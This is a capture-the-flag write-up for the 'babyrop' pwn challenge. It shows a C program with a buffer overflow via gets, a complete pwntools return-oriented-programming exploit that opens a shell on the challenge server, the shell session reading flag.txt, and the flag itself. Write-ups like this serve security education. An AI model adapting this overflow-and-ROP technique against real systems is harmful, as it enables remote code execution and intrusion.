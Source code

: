 # babyrop [Pwn]

## Prompt
You are ready for more return-oriented programming.

``` bash
nc challs1.nusgreyhats.org 5012
```

![Image of prompt](./screenshots/babyrop-prompt.png)

## Files
[babyrop.tar.gz](./files/babyrop.tar.gz)

## Description

As seen in the [C file](./files/babyrop.c) below, our aim is to allocate `*favourite_shell` variable as the register that is used as input for `system` function. We must then force the code to call onto the `system` function after this reallocation of variables/register values. Afterwhich, we can then run a shell within the server's machine to hopefully find and obtain the flag.

``` c
// babyrop.c

/* gcc -no-pie -fno-stack-protector ./babyrop.c -o babyrop */
#include <stdio.h>

char *favorite_shell = "/bin/sh";

int main() {
    puts("The time now is:");
    system("date");

    printf("My favorite shell is %s\n", favorite_shell);

    char buf[32];
    gets(buf);
    return 0;
}
```

With that, we can craft our payload into our [script](./files/baby-code.py). We used the pwn library for python for this. For the determination of values for `PAYLOAD` we used [Ghidra](https://ghidra-sre.org/) and [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to analyse the assembly instructions and work from ther.

``` python
from pwn import *

HOST = "challs1.nusgreyhats.org"
PORT = 5012
BINARY = "./babyrop"
BABYROP = ELF('./babyrop')

PAYLOAD =  p64(0x0000000000400486) * 8  # ret * 8
PAYLOAD += p64(0x0000000000400683)      # pop rdi ; ret
PAYLOAD += p64(0x004006a4)              # s_/bin/sh_004006a4
PAYLOAD += p64(BABYROP.plt['system'])   # JMP 'system'

r = remote(HOST, PORT)  # server
# r = process(BINARY)   # local

pause()
r.sendline(PAYLOAD)
r.interactive()
```

Running the python script will then give use the flag!

``` bash
$ python3 baby-code.py
[*] 'babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs1.nusgreyhats.org on port 5012: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
Mon Aug 16 09:29:31 UTC 2021
$ ls
flag.txt
run
$ cat flag.txt
greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

## Flag
`greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}`